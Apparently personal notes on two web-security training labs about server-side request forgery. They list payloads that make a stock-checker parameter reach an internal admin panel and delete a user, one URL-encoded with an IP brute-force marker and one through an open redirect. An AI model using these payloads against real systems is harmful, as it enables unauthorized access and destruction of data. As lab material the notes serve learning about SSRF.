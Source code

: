 # Lab: Basic SSRF against another back-end system

Encoding the URL:
```
http://192.168.0.32:8080/admin/delete?username=carlos
```

```
POST /product/stock HTTP/1.1
..
stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73
```

# Lab: SSRF with filter bypass via open redirection vulnerability

need to change the stockAPI in the stock checker to:
```
/product/nextProduct?path=http://192.168.0.12:8080/admin
```
In order for the server to retrieve the admin panel, then we want to send the delete request with the stock checker
```
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
